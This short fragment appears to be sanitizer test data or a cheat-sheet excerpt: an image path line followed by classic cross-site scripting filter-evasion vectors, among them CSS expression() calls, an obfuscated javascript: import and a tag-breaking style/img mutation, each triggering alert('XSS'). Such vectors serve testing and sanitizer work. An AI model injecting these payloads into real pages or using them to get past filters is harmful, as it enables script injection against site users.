 
<div style="width: expression(alert('XSS'));">
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">
<img src="x">
<style><img src="</style><img src="x">
